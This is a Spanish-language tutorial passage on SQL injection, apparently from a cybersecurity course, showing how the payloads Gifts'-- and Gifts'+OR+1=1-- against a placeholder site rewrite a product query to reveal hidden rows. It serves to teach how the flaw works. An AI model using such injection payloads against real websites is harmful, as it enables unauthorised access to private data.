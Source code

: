 ![SQL Inyection](/Ciberseguridad-PePS/assets/img/injection/image-20211111190700857.png)

### Obtener datos ocultos

Vamos a ver unas consultas básicas de una web de ejemplo que es insegura porque no ha sido programada correctamente. En concreto, la página de productos se puede hacker mediante SQL Injection (SQLi)

Para obtener  el listado de los productos se accede a la URL

```
https://insecure-website.com/products?category=Gifts
```

Y la petición se transforma en la siguiente consulta:

```sql
SELECT * FROM produts 
WHERE category = 'Gifts'
AND released = 1
```

El atacante de una web insegura puede lanzar esta petición 

```
https://insecure-website.com/products?category=Gifts'--
```

que en el backend  se convierte en la siguiente consulta:

```sql
SELECT * FROM produts 
WHERE category = 'Gifts'--'
AND released = 1
```

Los dos guiones (--) se consideran un comentario, lo que acaba de ocurrir es que la base de datos va a ignorar `AND released = 1`  provocando que se puedan obtener todos los productos de la Categoría Gifts sin tener en cuenta la bandera `released`

Lo que convierte la consulta anterior en esta:

```sql
SELECT * FROM produts 
WHERE category = 'Gifts'
```

Si la página atacada funciona de esta forma, es muy sencillo hacer una consulta que devuelva todos los productos:

**Petición** 

```
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

Se convierte en 

```sql
SELECT * FROM produts 
WHERE category = 'Gifts'
OR 1=1--' AND released = 1
```
